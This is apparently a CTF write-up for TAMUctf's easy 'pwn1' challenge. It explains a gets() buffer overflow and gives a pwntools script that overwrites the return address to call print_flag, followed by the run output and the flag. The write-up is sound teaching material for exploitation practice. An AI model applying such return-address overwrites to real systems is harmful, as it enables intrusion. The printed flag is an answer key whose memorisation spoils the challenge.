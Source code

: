 ## Pwn1 - Pwn

**Description:** `nc pwn.tamuctf.com 4321`
**Challenge:** : pwn1
**Difficulty:** easy
**Solved by:** Neolex  

**Solution:**  
This challenge is a simple **buffer overflow**. 
First, the binary ask us a question : 
"Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?"
we have to answer : "Sir Lancelot of Camelot"
then, another one:  "What... is your quest?"
we answer : "To seek the Holy Grail."
Then the question is : "What... is my secret?" 
and the call to read the answer is not fgets this time but **gets** which is a vulnerable function (see ```man gets```: 
```
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many
       characters gets() will read, and because gets() will continue to store characters past  the  end
       of  the  buffer, it is extremely dangerous to use.  It has been used to break computer security.
       Use fgets() instead
       
```
 If we enter "A"*43+"BBBB" the binary returns to 0x42424242 which is our B's : we control the execution.    
 Fortunaly the binary gives us a function "print_flag" at address 0xdea110c8 which prints the content of the file flag.txt.
 So here is our exploit script 
 ```python
 from pwn import *

# p = process('./pwn1')
p = remote('wn.tamuctf.com',4321)

p.recvuntil("name?")
p.sendline("Sir Lancelot of Camelot")
p.recvuntil("quest?")
p.sendline("To seek the Holy Grail.")
p.recvuntil("secret?")

payload = "A"*43
payload += p32(0xdea110c8)

p.sendline(payload)
print p.recvall()
 ```
 Let's run it : 
 ```
$ python exploit.py                         
[+] Opening connection to wn.tamuctf.com on port 4321: Done
[+] Receiving all data: Done (50B)
[*] Closed connection to wn.tamuctf.com port 4321

Right. Off you go.
gigem{34sy_CC428ECD75A0D392}
 ```
 
**Flag:**  
gigem{34sy_CC428ECD75A0D392}


